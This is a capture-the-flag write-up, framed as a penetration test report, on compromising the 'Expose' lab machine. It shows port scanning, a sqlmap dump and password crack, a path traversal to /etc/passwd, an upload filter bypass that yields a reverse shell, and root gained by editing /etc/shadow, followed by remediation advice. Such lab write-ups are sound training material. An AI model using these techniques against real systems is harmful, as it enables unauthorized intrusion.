







# Expose CTF

## Executive summary:

I performed a comprehensive test on a specific host within the Expose CTF environment. Two main vulnerable services were identified on this machine, notably on ports 22 (ssh) and 1337 (waste).

A deep dive into the **`waste`** service (webserver) provided the primary attack vector. Two distinct vulnerabilities were identified on this service:

1. Code Injection
2. File Inclusion Vulnerability

Through systematic exploitation of these vulnerabilities, unauthorized access to the machine was successfully achieved. This led to privilege escalation and complete ownership of the machine.

### **Key Findings:**

1. **Code Injection and File Inclusion**: A web server running on port 1337 was vulnerable to code injection and file inclusion attacks, enabling unauthorized reading of files and potential execution of malicious scripts.
2. **Weak Credentials**: The password 'easytohack' was cracked, hinting at the use of weak credentials.
3. **File Upload Vulnerability**: An unrestricted file upload vulnerability was discovered, allowing the execution of potentially harmful code on the server.
4. **Privilege Misconfigurations**: User **`zeamkish`** had improperly configured permissions, notably the capability to edit the **`/etc/shadow`** file via nano, leading to full system compromise.

### **1. Introduction:**

The objective of this penetration test was to evaluate the vulnerabilities present in the target machine and exploit them to gain unauthorized access. The findings are outlined in the report below.

### **2. Methodology:**

The test was conducted systematically, starting with a basic enumeration, followed by exploitation and post-exploitation activities.

### **3. Findings:**

### **3.1 Network Enumeration:**

Using the **`nmap`** tool, a quick network scan was performed on the target machine:

```bash
┌──(root㉿kali)-[/expose-ctf]
└─# nmap -sT -p- 10.10.173.3 -oN scan.txt
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-27 19:12 CEST
Nmap scan report for 10.10.173.3
Host is up (0.054s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
53/tcp   open  domain
1337/tcp open  waste
1883/tcp open  mqtt

```

Checking all domains in the browser shows that `waste` is webserver, so let’s try to brute-force our way in. 

```bash
──(root㉿kali)-[/expose-ctf]
└─# gobuster dir -u http://10.10.173.3:1337 -w /usr/share/wordlists/dirb/big.txt                                                          
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.173.3:1337
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/admin                (Status: 301) [Size: 317] [--> http://10.10.173.3:1337/admin/]
/admin_101            (Status: 301) [Size: 321] [--> http://10.10.173.3:1337/admin_101/]
/javascript           (Status: 301) [Size: 322] [--> http://10.10.173.3:1337/javascript/]
/phpmyadmin           (Status: 301) [Size: 322] [--> http://10.10.173.3:1337/phpmyadmin/]
/server-status        (Status: 403) [Size: 278]
Progress: 20469 / 20470 (100.00%)
```

Let’s see if `admin` or `admin_101` could contain vulnerabilities. 



By intercepting the request we can test the input form for SQL Injection and XSS vulnerabilities and potentially dump the database

```bash
┌──(root㉿pcl-ntb)-[~/expose-ctf]
└─$ sqlmap -r req --dump
```

And we see some interesting information in the output:

```bash
do you want to use common password suffixes? (slow!) [y/N] y
[20:24:44] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[20:24:44] [INFO] starting 8 processes 
[20:24:48] [INFO] cracked password 'easytohack' for hash '69c66901194a6486176e81f5945b8929'                                              
Database: expose                                                                                                                         
Table: config
[2 entries]
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929 (easytohack)       |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
```

Let’s visit the first discovered file `/file1010111/index.php` and use the cracked hash `easytocrack`  



So let’s try to mess around with the URL. After a few attempts I’ve managed to get the contents of the /etc/passwd file [`http://10.10.63.103:1337/file1010111/index.php?file=../../../../etc/passwd`](http://10.10.63.103:1337/file1010111/index.php?file=../../../../etc/passwd) and we can see that the user whose name begins with `"z"` is `zeamkish`

Let’s now try the second website with this password



We’re greeted by an upload page with an evident restriction to only allow images. However, this may be our entry point as we can capture this request with burp suite and change the request midflight. Trying to paste a .php file would be futile, so we can rename our exploit to a .jpg file







And we’re in, now we just have to setup our listener:



```bash
┌──(root㉿pcl-ntb)-[/home/dnl]
└─# nc -lnvp 9401                                                                                                                         
listening on [any] 9401 ...
connect to [10.11.53.83] from (UNKNOWN) [10.10.63.103] 38008
Linux ip-10-10-63-103 5.15.0-1039-aws #44~20.04.1-Ubuntu SMP Thu Jun 22 12:21:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 18:55:25 up 38 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

After making my shell persistent I’ve discovered a set of credentials we’ve captured the first flag. 

```bash
cat SSH CREDS
zeamkish
easytohack@123

```

and a flag `THM{***...}`

Now it’s time to escalate privileges. 

```bash
find / -perm -04000 -type f -ls 2>/dev/null
```

Returns a list of possible subjects, however, our user is not in sudoers. This limits us only to `nano` and we can use it’s broken permissions to do privileged writes and change `root` config in `/etc/shadow` by creating a new hash of a password:

```bash
zeamkish@ip-10-10-168-189:~$ openssl passwd 1234
PAMYycFidIbyI
zeamkish@ip-10-10-168-189:~$ nano /etc/shadow
zeamkish@ip-10-10-168-189:~$ su root
Password: #1234
root@ip-10-10-168-189:/home/zeamkish# head -1 /etc/shadow
root:PAMYycFidIbyI:19519:0:99999:7:::
```

And we’ve successfully owned the machine. 

### **Recommendations:**

1. **Patch and Update**: Ensure that all services, especially those exposed to the internet, are up to date with the latest security patches.
2. **Robust Password Policies**: Enforce strong password policies, including minimum lengths, the use of special characters, numbers, and uppercase letters, and regular rotation.
3. **Input Validation**: Implement strict input validation to prevent code injections. Employ prepared statements to avoid SQL injections.
4. **Limit File Uploads**: If file uploads are necessary, they should be strictly validated both in terms of file type and content. Additionally, consider segregating the file upload service from core business logic.
5. **Least Privilege Principle**: Ensure that users and services operate with the minimum necessary privileges. Regularly review and adjust permissions.
6. **Security Monitoring and Logging**: Enhance monitoring and alerting to detect and respond to suspicious activities promptly.
7. **Regular Pentesting**: Engage in regular penetration testing exercises to discover and address new vulnerabilities in the environment.